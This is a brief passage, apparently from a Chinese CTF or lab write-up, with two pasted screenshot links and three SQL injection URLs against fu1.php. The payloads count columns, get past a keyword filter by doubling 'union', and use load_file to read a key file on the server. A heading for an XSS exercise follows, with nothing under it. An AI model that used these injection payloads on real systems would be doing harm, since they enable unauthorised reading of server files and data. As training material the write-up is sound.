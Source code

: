 ![upload successful](/images/pasted-890.png)
![upload successful](/images/pasted-891.png)
拿到key
```
fu1.php?id=1%') order by 7 -- q
fu1.php?id=-1%') uniunionon select 1,2,3,4,5,6,7 -- q
fu1.php?id=-1%') uniunionon select 1,load_file(\"/tmp/360/key\"),3,4,5,6,7 -- q
```

# 34213 XSS跨站脚本攻击
